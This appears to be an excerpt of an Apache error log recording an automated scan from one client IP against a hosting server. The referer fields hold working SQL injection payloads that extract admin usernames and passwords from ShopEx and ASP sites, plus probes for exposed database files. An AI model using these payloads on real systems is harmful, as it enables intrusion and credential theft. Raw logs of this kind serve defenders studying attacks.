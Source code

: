 ```
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/shopadmin, referer: http://second.site.com//shopadmin/index.php?ctl=passport&act=login&sess_id=1%27+and%28select+1+from%28select+count%28*%29,concat%28%28select+%28select+%28select+concat%28userpass,0x7e,username,0x7e,op_id%29+from+sdb_operators+Order+by+username+limit+0,1%29+%29+from+%60information_schema%60.tables+limit+0,1%29,floor%28rand%280%29*2%29%29x+from+%60information_schema%60.tables+group+by+x%29a%29+and+%271%27=%271
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/SiteServer, referer: http://second.site.com//SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0&directoryName=sectest
[Sun Jul 21 23:05:14 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/SiteFiles, referer: http://second.site.com//SiteFiles/Module/cms/logo.gif
[Sun Jul 21 23:05:14 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/NewsType.asp, referer: http://second.site.com//NewsType.asp?SmallClass='%20union%20select%200,username%2BCHR(124)%2Bpassword,2,3,4,5,6,7,8,9%20from%20admin%20union%20select%20*%20from%20news%20where%201=2%20and%20''='
[Sun Jul 21 23:05:14 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/install, referer: http://second.site.com//install/index.php?_m=frontpage&_a=setting&default_tpl=jixie-110118-a16
[Sun Jul 21 23:05:14 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/Data21293, referer: http://second.site.com//Data21293/NYIKUGY5434231.mdb
[Sun Jul 21 23:05:14 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/admin, referer: http://second.site.com//admin/review.asp?id=1%20union%20select%201,2,3,4,5,admin,7,8,9,password,11%20%20from%20cnhww
[Sun Jul 21 23:05:15 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/admin, referer: http://second.site.com//admin/left.asp
```
